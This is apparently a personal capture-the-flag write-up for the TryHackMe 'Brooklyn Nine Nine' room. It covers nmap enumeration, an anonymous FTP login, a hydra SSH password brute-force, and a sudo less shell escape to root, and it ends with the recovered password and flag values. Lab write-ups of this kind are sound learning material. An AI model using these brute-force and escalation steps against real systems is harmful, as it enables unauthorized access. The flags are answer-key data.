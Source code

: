 ```yaml
---
creation date: July 18th 2023
last modified date: July 18th 2023
aliases: []
tags: #🎌
---
```


Primary Categories: 
Secondary Categories:  
Links: 
Search Tag: #🎌  

# [[THM - Brooklyn Nine Nine]]  


# Resolution summary
- Text
- Text

## Improved skills
- skill 1
- skill 2

## Used tools
- [[nmap]]
- 

---

# Information Gathering
Scanned all TCP ports:
```bash
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```

Enumerated open TCP ports:
```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.13.0.100
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
|   256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
|_  256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Enumerated top 200 UDP ports:
```bash

```

---

# Enumeration
## Port 21 FTP
- Anon login
```bash
ftp anonymous@10.10.10.10
```
- Located a file talking about a user names *jake* and that he needed to change his password as its very weak

---

# Exploitation
## Brute Force SSH
User: *jake*
```bash
hydra -l jake -P /usr/share/wordlists/rockyou.txt 10.10.10.10 ssh
```
Password: *987654321*

---

# Lateral Movement to user
## Local Enumeration
- *jake*:*987654321*
	- Found user.txt under `/home/holt/user.txt`
	- `sudo -l`
		- Showed we have full access to [[less]]

## Lateral Movement vector


---

# Privilege Escalation
## Local Enumeration


## Privilege Escalation vector
```bash
sudo less /etc/profile
!/bin/sh
```

---

# Trophy & Loot

user.txt = *ee11cbb19052e40b07aac0ca060c23ee*
root.txt = *63a9f0ea7bb98050796b649e85481845*

___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: July 18th 2023 (09:25 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
